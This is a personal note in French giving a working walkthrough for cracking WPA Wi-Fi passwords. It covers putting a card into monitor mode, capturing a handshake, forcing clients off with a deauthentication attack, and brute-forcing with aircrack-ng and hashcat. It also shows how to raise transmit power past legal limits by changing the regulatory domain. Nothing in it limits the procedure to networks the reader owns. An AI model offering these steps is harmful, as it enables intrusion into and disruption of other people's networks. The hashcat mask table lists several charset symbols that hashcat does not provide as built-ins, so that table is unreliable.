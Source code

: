```yaml
---
id: wifi_crack
created_date: 16/02/2023
updated_date: 16/02/2023
type: note
---
```


#  wifi_crack
- **🏷️Tags** :  #02-2023 #wifi #crack #tools 

## 📝 Notes

### Mettre sa carte en mode monitor


```bash
sudo ifconfig wlan1 down
sudo iwconfig wlan1 mode monitor
sudo ifconfig wlan1 up
```

pour tester si sa carte est compatible utiliser la commande :


```bash
sudo aireplay-ng --test wlan1
```

### Faire un scan du réseaux 

- dans un premier temps taper la commande 

```bash
sudo airodump-ng wlan1
```

- récupérer le nom de l'interface réseaux qui vous intéresse
- ainsi que son BSSID et que son numéro de channel ( bien vérifier son type d' ENC ).
### lancer l'attaque
on souhaite ici récupérer le handshake et pour cela on va avoir besoin du BSSID et du channel.

```bash

sudo airodump-ng -c 6 --bssid 44:D4:54:ED:F9:60 --output-format pcap -w ~/Bureau wlan1

```

pour accélérer les choses on va lancer en même temps une attaque de Dauth contre la machine. ( sinon c'est gavé long ).

```bash
sudo aireplay-ng -0 20 -a E4:9E:12:89:FE:D4  wlan1
```

une fois que le handshake est obtenue et qu'une certaine quantité de requête aussi passer à l'étape suivante.

### crack et brutforce


```bash
aircrack-ng -a2 -b <BSSID> -w /chemi/du/dico.txt ./chemi/du/fichier/cap/enregistrer.cap

```

debrider carte alfa 


```bash
sudo ifconfig wlan1 down  
sudo iw reg set BZ  
sudo iwconfig wlan1 txpower 30  
sudo ifconfig wlan1 up  
iwconfig

```

### Conversion du format pour bruteForce

```bash
hcxpcapngtool -o capture.22000 capture.cap
```

une fois le fichier convertie en format 22000 lancer le brutforce avec [[Screen]]  et hashcat 

```bash
hashcat -m 22000 capture.22000 -a 3 '?d?d?d?d?d?d?d?d'
```

#### Tableau des paramètres de hashcat 

| Mask Symbol | Description                          | Character Set          |
|-------------|--------------------------------------|------------------------|
| `?d`        | Digit                                | 0 1 2 3 4 5 6 7 8 9    |
| `?l`        | Lowercase letter                     | a b c d e f g h i j k l m n o p q r s t u v w x y z |
| `?u`        | Uppercase letter                     | A B C D E F G H I J K L M N O P Q R S T U V W X Y Z |
| `?s`        | Special symbol                       | ! " # $ % & ' ( ) * + , - . / : ; < = > ? @ [ \ ] ^ _ ` { | } ~ |
| `?a`        | All printable ASCII characters       | Digits, lowercase, uppercase, and special symbols |
| `?b`        | All 8-bit characters from ASCII      | 0x00 - 0xff           |
| `?h`        | Lowercase hexadecimal                | 0 1 2 3 4 5 6 7 8 9 a b c d e f |
| `?H`        | Uppercase hexadecimal                | 0 1 2 3 4 5 6 7 8 9 A B C D E F |
| `?D`        | Digits and special symbols           | 0 1 2 3 4 5 6 7 8 9 and special symbols |
| `?L`        | Lowercase letters and digits         | Lowercase letters and digits |
| `?U`        | Uppercase letters and digits         | Uppercase letters and digits |
| `?X`        | Lowercase and uppercase letters      | Lowercase and uppercase letters |
| `?Z`        | Uppercase letters and special symbols| Uppercase letters and special symbols |
| `?f`        | All printable characters excluding space | Digits, lowercase, uppercase, and special symbols (excluding space) |

### Examples
- Digits only, 8 characters long: `?d?d?d?d?d?d?d?d`
- Lowercase letters only, 6 characters long: `?l?l?l?l?l?l`
- Mix of lowercase letters and digits, 10 characters long: `?l?l?l?l?d?d?d?d?d?d`
- Printable ASCII characters, 12 characters long: `?a?a?a?a?a?a?a?a?a?a?a?a`

## Questions/Thoughts


## 🔗 Links
- 
